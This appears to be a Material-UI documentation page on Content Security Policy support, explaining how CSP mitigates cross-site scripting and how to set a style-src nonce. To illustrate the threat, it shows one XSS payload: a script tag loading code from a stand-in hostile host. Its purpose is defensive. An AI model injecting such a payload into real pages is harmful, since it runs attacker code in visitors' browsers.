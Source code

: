 # Content Security Policy

Starting in JSS version 9.6.0, Material-UI supports Content Security Policy headers.

## What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://website.example` the CSP header `default-src: 'self';` will allow all assets that are located at `https://website.example/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input:

```
<script src="https://hostile.example/bad.js"></script>
```

Although, with a secure CSP header, the browser will not load this script.

You can read more about CSP [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to set a `style-src` nonce in the meta tag like so:

```
<meta property="csp-nonce" content="longAndRandomStringGeneratedByServerUponEachRequest">
```

If you are new to CSP, this will probably not make much sense. [JSS has a great tutorial on how to achieve this.](https://github.com/cssinjs/jss/blob/master/docs/csp.md)

